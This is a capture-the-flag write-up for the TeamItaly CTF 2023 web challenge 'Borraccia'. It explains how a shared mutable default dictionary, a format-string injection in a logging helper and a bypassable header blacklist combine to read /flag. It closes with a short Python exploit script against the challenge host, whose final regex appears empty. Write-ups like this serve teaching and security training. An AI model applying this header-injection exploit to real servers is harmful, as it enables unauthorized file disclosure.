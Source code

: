 # TeamItaly CTF 2023

## [web] Borraccia (2 solves)

## Overview  
In this challenge we are given an application which uses a custom, poorly-
written web framework, called `Borraccia` (Flask in italian).  
The challenge is tagged as a `misc`, so we probably need to use some Python
shenanigans in order to solve the challenge.

The first thing that catches our attention is something called `ObjDict`,
let's see how it's implemented and what it does:

```python

class ObjDict:  
   def __init__(self, d={}):  
       self.__dict__['_data'] = d # Avoiding Recursion errors on __getitem__

   def __getattr__(self, key):  
       if key in self._data:  
           return self._data[key]  
       return None

   def __contains__(self, key):  
       return key in self._data

   def __setattr__(self, key, value):  
       self._data[key] = value

   def __getitem__(self, key):  
       return self._data[key]

   def __setitem__(self, key, value):  
       self._data[key] = value

   def __delitem__(self, key):  
       del self._data[key]

   def __enter__(self, *args):  
       return self

   def __exit__(self, *args):  
       self.__dict__["_data"].clear()

   def __repr__(self):  
       return f"ObjDict object at <{hex(id(self))}>"

   def __iter__(self):  
       return iter(self._data)

```

Basically, this class works like an object in JavaScript:

```python

obj = ObjDict() # We can also use `with` operator  
obj.first = 10  
obj.second = "20"

print(obj.first) # 10  
print(obj.second) # 20  
print(obj.third) # None

print(obj.secondobj.first) # Error

obj.secondobj = ObjDict()  
obj.secondobj.test = "yay"

print(obj.secondobj.test) # yay

```

At first glance this class would seem fine, but if you know at least the
basics of Python, you can see that this class uses a [mutable object as
default argument](https://florimond.dev/en/posts/2018/08/python-mutable-
defaults-are-the-source-of-all-evil/)!

So, each and every instance of ObjDict shares the same dictionary!  
This will come in handy later...

## Read a file using status codes

We need to read the flag from /flag somehow, so there's probably a path
traversal.

We can see three interesting functions:  
- `serve_file`  
- `serve_static_file`  
- `serve_error`

The first two functions are not used inside `server.py`, so the only function
left is `serve_error`.

Inside `server.py`:

```python  
ctx.response.body = utils.serve_error(ctx.response.status_code)  
```

If we can control the value of `status_code`, we can read arbitrary files.  
But... How?! Isn't `status_code` only modified by the server?

Let's see how the request/response is handled:  
```py  
ctx.response = ObjDict()  
ctx.request = ObjDict()  
  
ctx.response.status_code = 200 # Default value  
```

Oh! Did you see that? `ctx.response` and `ctx.request` shares the same
dictionary!

We can overwrite values thanks to:  
```python  
for probable_header in filter(None, rows[1:]): # Memorizing headers  
   if (cap:=HEADER_RE.search(probable_header)):  
       header = cap.group(1)  
       value = cap.group(2)

       h = utils.normalize_header(header)  
       v = utils.normalize_header_value(value)  
       ctx.request[h] = v   
```

So, if we send a request with `status-code: /flag` the server will send the
flag to us... Right?

Unfortunately no, let's take a look inside `request_handler`:

## Playing with string formatting

```python  
try:  
   utils.build_header(ctx) # Now the response is ready to be sent  
   utils.log(logging,
f"[{curr}]\t{ctx.request.method}\t{ctx.response.status_code}\t{address[0]}",
"DEBUG", ctx)  
   assert ctx.response.status_code in ERRORS or ctx.response.status_code ==
200  
except AssertionError:  
   raise # Something unexpected happened, close conection immediately  
except Exception as e:  
   ctx.response.status_code = 500  
   ctx.response.header = ""  
   ctx.response.body = utils.serve_error(ctx.response.status_code) +
utils.make_comment(f"{e}") # Something went wrong while building the header.  

client.send((ctx.response.header + ctx.response.body).encode())  
```

The flag will be loaded inside ctx.response.body but it will not be sent due
to that `assert`, but if we're able to cause an exception (but not an
AssertionError) with the flag inside, we can receive it.

The first error that came into my mind is, `KeyError`:

```python  
test = {}  
flag = "flag{fake}"  
try:  
   test[flag]  
except KeyError as e:  
   print(e) # 'flag{fake}'  
```

Let's see how `utils.log` is implemented:

```python

def log(log, s, mode="INFO", ctx=None):  
   {  
       "DEBUG": log.debug,  
       "INFO": log.info,  
       "ERROR": log.error  
   }[mode](s.format(ctx), {"mode": mode})

```

Do you see something SUSpicious? Of course you do. We can exploit `s.format`
in order to force logging to cause an exception:

```python  
def log(log, s, mode="INFO", ctx=None):  
   {  
       "DEBUG": log.debug,  
       "INFO": log.info,  
       "ERROR": log.error  
   }[mode](s.format(ctx), {"mode": mode})

try:  
   log(logging, "%(flag{fake_flag})s")  
except Exception as e:  
   print(e) # flag{fake_flag}

```

We can send a similar header in order to get the flag:

```  
status-code: %({0[response][body]})s  
```

But this is not going to work, there's a blacklist:

```python  
@lru_cache  
def normalize_header_value(s: str) -> str:  
   return re.sub(r"[%\"\.\n\'\!:\(\)]", "", s)  
```

So we can't use the following characters: `%".\n'!:()`

Since the blacklist is applied only to headers, we can bypass this by e.g
putting those blacklisted characters inside request.params.

## Exploit

```python  
import re  
import requests

r = requests.get("http://borraccia.challs.teamitaly.eu?a=%(&b=)s",  
           headers={  
                   "status-code": "/flag",  
                   "method": "{0[request][params][a]}{0[response][body]}{0[request][params][b]}"  
           })

print("FLAG:", re.search(r"", r.text).group(1))

```

## Flag

`flag{4Ss3r7_3v3ry7h1nG!1!1!}`

Original writeup
(https://github.com/TeamItaly/TeamItalyCTF-2023/blob/master/Borraccia/README.md).